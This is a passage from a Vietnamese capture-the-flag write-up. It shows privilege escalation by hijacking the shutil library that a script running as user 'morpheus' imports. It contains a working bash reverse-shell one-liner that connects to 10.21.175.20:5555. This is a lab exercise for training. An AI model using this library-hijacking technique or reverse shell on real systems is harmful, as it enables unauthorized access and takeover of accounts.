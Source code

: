 - Xâu chuỗi lại các thông tin thu thập được, nhận thấy file `restore.py` đang được chạy với uid `1002` ứng với user `morpheus`. Trong khi đó file này sử dụng thư viện `shutil.py` mà ta có thể giả mạo.

- Vì vậy việc cần làm là chèn một reverse shell vào file `shutil.py` để chương trình tự thực thi trong file `restore.py`.

```bash
import os;os.system(\"bash -c 'bash -i >& /dev/tcp/10.21.175.20/5555 0>&1'\")`
```

![Hoangdeptrai](Images/43.png)

- Đợi một chút cho shell kích hoạt, thành công tạo được shell với user `morpheus`.

![Hoangdeptrai](Images/44.png)

- Thành công lấy được flag 🚩🚩🚩

![HoangVu](Images/45.png) 
